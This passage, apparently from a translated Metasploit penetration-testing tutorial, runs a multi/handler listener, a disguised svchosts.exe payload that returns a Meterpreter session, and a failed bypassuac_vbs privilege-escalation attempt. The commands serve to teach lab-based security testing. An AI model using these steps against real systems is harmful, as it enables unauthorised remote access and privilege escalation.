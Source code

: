 *   `use exploit/multi/handler`：这会让你回到处理程序中
*   `sessions -k 2`：这将终止正在运行的会话 2
*   `run -j`：这将重新启动 multi/handler 以接受新连接，并在后台将其作为作业运行

![](img/e9187b0c-0a39-4744-8bab-76fa71c31647.png)

现在，在使用`fflintstone`帐户登录 RDP 会话后，我们将从命令行或 PowerShell 再次运行有效负载。

```
C:\Windows\Temp\svchosts.exe  
```

![](img/7fdc87d0-45c1-4aa8-b2bf-f44ad013fd0e.png)

在下面的屏幕截图中，我们可以看到 Kali 盒上的处理程序已接受连接并在会话 3 上设置了 MeterMeter 会话：

![](img/2f0ef787-59ec-40b2-9ed7-1e53f6a8393c.png)

现在，让我们回到绕过 UAC 漏洞并在新会话中运行它。要执行此操作，请运行以下命令：

*   `back`：这将退出处理程序，而不会终止它或任何会话
*   `use exploit/windows/local/bypassuac_vbs`：这将使您回到模块中
*   `set session 3`：这将漏洞利用设置为使用会话 3
*   `exploit`：这会把它点燃

在下面的屏幕截图中，我们可以看到我们仍然失败。UAC 设置似乎具有更高的安全设置，无法利用。同样，持久性是关键：

